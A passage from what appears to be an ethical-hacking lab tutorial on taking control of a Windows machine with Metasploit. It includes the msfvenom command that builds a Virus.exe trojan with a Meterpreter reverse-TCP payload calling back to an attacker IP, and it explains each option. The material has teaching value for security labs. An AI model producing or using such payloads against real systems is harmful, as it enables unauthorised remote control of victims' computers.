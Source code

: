 We can define the username and password as per the preference.

Finally this way, we need to get two of our machines ready. 

![image](https://github.com/swopnilshakya7/Taking-Control-Over-Windows-Machine-Metasploit-Ethical-Hacking/assets/140642619/c98ab36c-b8b4-4f7a-86be-86c93d8909cd)


<br/> Step 2: Creating a malware <br/>

For malware, we will be just creating a small file in .exe format which is executable in windows. And the script will open the meterpreter in the windows machine which will be calling the IP of attacker machine to run the script. 

For this, we are going to use the metasploit framework. So lets first open the metasploit framwork in the attacker machine (Kali linux).

Just click on the kali menu and type metasploit framework and start it. A window of metasploit will open. With msf6 written on it. It simply means MetaSploit Framework Version 6.


![image](https://github.com/swopnilshakya7/Taking-Control-Over-Windows-Machine-Metasploit-Ethical-Hacking/assets/140642619/8d885c5f-e566-46bd-9436-088bfcc3517c)



Just type the attacker as password that we created before in the password section.


![image](https://github.com/swopnilshakya7/Taking-Control-Over-Windows-Machine-Metasploit-Ethical-Hacking/assets/140642619/29575cac-8ce4-4327-b3c7-3d5dcd1d0d30)



First thing is, we need to check if the machine is connected with the public network or not. So that we will be able to reach the windows machine. For that, just need to type the command ip addr and check the IP address in the inet part of eth0.
If the IP address begins with 10.0.9.x, then we can confirm the machine is in public network.

![image](https://github.com/swopnilshakya7/Taking-Control-Over-Windows-Machine-Metasploit-Ethical-Hacking/assets/140642619/bbcf12d8-9446-4986-b75c-9652ee396fec)



After that, we can proceed forward to creating a malware. For that just need to run the following two lines in msfv6 by changing the .x of LHOST with the machine IP. As stated before, this two line is creating a malware with the help of msfv6 which opens the meterpreter shell, an interface which will provide us the command line shell to control the windows later.

Msfv6 command:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.9.15 -f exe -o ~/Desktop/Virus.exe




here, 
-p refers to payload switch. And here payload is used from the framework database which is created for windows machine to do the reverse shell.
LHOST is the machine where the virus/ trojan should call.
-f refers to format of the file. We selected .exe because it is executable in windows.
-o means output. For now, we want that file in our desktop and the name of the file is Virus.exe.

![image](https://github.com/swopnilshakya7/Taking-Control-Over-Windows-Machine-Metasploit-Ethical-Hacking/assets/140642619/79b3d5c3-db6c-4d8b-8ad7-b46375a36ac2)

